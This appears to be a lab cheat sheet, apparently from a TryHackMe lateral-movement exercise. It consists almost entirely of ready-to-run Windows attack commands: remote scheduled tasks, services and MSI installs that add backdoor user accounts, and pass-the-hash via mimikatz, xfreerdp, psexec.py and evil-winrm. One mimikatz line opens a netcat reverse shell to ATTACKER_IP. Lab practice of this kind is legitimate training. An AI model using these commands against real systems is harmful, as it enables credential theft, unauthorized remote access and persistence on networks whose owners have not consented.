 # WMI remote scheduled tasks
`$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"`
# WMI remote MSI installation
`Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`

# sc.exe (Remote services)
`sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto`
`sc.exe \\TARGET start THMservice`
`sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice`

# Schedule task (remote run)
`schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 `
`schtasks /s TARGET /run /TN "THMtask1" `
`schtasks /S TARGET /TN "THMtask1" /DELETE /F`

## PASS THE HASH
# PTH with mimikatz
*Admin privs*
`privilege::debug`
`token::elevate`
`sekurlsa::msv`
`token::revert`
`sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"`*if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH*

# PTH RDP
`xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`
# PTH ps.exec
`psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`(linux version)
# PTH evil-winrm
`evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH`
